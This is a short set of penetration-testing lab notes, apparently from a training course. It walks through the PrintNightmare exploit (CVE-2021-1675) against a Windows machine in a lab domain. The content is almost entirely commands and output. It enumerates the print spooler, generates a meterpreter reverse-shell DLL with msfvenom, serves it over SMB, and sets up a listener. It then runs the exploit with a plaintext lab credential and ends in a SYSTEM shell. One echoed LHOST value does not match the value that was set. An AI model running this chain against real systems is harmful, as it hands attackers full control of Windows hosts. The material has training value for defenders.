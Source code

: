 Enumerating for MS-RPRN
rpcdump.py @172.16.5.5 | egrep 'MS-RPRN|MS-PAR'

Protocol: [MS-PAR]: Print System Asynchronous Remote Protocol 
Protocol: [MS-RPRN]: Print System Remote Protocol 

Generating a DLL Payload
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.5.225 LPORT=8080 -f dll > backupscript.dll

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of dll file: 8704 bytes

sudo smbserver.py -smb2support CompData /path/to/backupscript.dll

Impacket v0.9.24.dev1+20210704.162046.29ad5792 - Copyright 2021 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed

Configuring & Starting MSF multi/handler
[msf](Jobs:0 Agents:0) >> use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set PAYLOAD windows/x64/meterpreter/reverse_tcp
PAYLOAD => windows/x64/meterpreter/reverse_tcp
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set LHOST 172.16.5.225
LHOST => 10.3.88.114
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set LPORT 8080
LPORT => 8080
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> run

[*] Started reverse TCP handler on 172.16.5.225:8080 

Running the Exploit
sudo python3 CVE-2021-1675.py inlanefreight.local/forend:Klmcargo2@172.16.5.5 '\\172.16.5.225\CompData\backupscript.dll'

Getting the SYSTEM Shell
[*] Sending stage (200262 bytes) to 172.16.5.5
[*] Meterpreter session 1 opened (172.16.5.225:8080 -> 172.16.5.5:58048 ) at 2022-03-29 13:06:20 -0400

(Meterpreter 1)(C:\Windows\system32) > shell
C:\Windows\system32>whoami
whoami
nt authority\system

## PetitPotam (MS-EFSRPC)
